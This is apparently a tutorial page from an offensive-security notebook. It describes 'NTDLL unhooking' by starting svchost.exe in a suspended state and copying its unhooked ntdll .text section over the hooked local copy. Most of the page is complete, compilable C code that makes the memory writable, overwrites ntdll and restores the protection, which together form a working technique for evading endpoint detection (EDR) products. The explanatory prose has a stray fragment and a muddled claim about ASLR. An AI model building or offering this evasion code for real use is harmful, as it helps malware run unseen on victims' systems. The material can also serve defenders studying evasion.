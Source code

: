 # NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll by fetching the local ntdll address (imported DLL's have the same VA values between processes)PAGE\_EXECUTE\_READWRITE
* Allocate Heap and copy .text from remote to local using SizOfCode found in OptionalHeader
* VirtualProtect local ntdll with RW & Copy memory from heap to ntdll base address.

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```c

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```



### Full Code

{% code fullWidth="true" %}
```c
#include <windows.h>
#include <winternl.h>
#include <wchar.h>
#include <stdio.h>

#define NTDLL L"NTDLL"

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}


int wmain() {

    // Create process
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    PROCESS_BASIC_INFORMATION pbi = {0};

    // Create Suspended Process
    if (!CreateSuspendedProcess(&si, &pi)) {
        return -1;
    }

    // Get Local NTDLL Base Address
    PVOID pNtdllBaseAddress = FetchLocalNtdllAddress();

    wprintf(L"[+] NTDLL Base Address %p\n", pNtdllBaseAddress);
    wprintf(L"[+] Suspended PIDS: %d\n", pi.dwProcessId);


    // Parse Local PE Headers
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pNtdllBaseAddress;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        wprintf(L"[!] DOS Signature Failed\n");
        return -1;
    }

    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pNtdllBaseAddress + pDosHeader->e_lfanew);

    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        wprintf(L"[!] NT Signature Failed\n ");
        return -1;
    }

    PIMAGE_OPTIONAL_HEADER pImgOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    // Get Size of .Text Section
    DWORD dwNtdllTextSize = pImgOptionalHeader->SizeOfCode;
    // Get Base address of .Text Section
    PVOID pAddressOfText = pNtdllBaseAddress + pImgOptionalHeader->BaseOfCode;


    wprintf(L"[+] Size of NTDLL .text section %d\n", dwNtdllTextSize);

    // Allocate Heap
    PVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwNtdllTextSize);

    // Copy Remote .Text Section to Allocated Buffer
    size_t ulBytesWritten = 0;
    ReadProcessMemory(pi.hProcess, pAddressOfText, lpBuffer, dwNtdllTextSize,  &ulBytesWritten);

    wprintf(L"[+] Wrote %d bytes to: %p\n", ulBytesWritten, lpBuffer);

    // Change permissions of local NTDLL
    DWORD dwOldPermissions;
    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[1] Failed %d", GetLastError() );
        return -1;
    }

    // This is just a POC, to avoid evasion properly needs more.
    // Example: Breaking apart copy into seperate spread out functions

    memcpy(pAddressOfText, lpBuffer, dwNtdllTextSize);

    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, dwOldPermissions, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[2] Failed %d", GetLastError() );
        return -1;
    }

    getchar();
    return 0;
}

```
{% endcode %}
